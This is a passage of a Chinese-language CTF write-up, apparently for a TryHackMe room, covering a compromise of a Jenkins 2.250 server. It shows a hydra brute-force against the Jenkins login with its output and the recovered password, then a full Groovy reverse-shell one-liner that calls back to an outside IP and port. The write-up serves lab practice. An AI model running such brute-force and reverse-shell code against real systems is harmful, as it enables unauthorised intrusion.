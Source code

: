 連上去可以看到 jenkins 的版本是 `2.250`，去找看看有沒有 exploit ，結果看起來都沒QQ

回過頭來去看 wp 發現是自己的 hydra 指令下錯了，其實他在送登入的時候有這一些參數

![Screenshot 2025-07-09 at 11.29.05 PM](https://hackmd.io/_uploads/B1a65b3Sle.png)

這一坨砸下去，就可以 get password 了

```bash=
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-09 11:31:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-09 11:31:51
```

`admin`:`spongebob`登進去之後找到 script console ，用學長推薦的工具生出 exploit https://www.revshells.com/


```bash=
String host="10.17.9.114";int port=6969;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

連進去之後經過一番通靈，在 /opt 找到 note.txt 

![Screenshot 2025-07-09 at 11.42.16 PM](https://hackmd.io/_uploads/BkL1RW3Sgl.png)

之後就 get root 了 

> Get Flag2: THM{d0ck3r_d3str0y3r}

## Pwned!

真的是把能踩的坑全部採過一遍了

![Screenshot 2025-07-09 at 11.45.05 PM](https://hackmd.io/_uploads/HkJ9RbhSel.png)

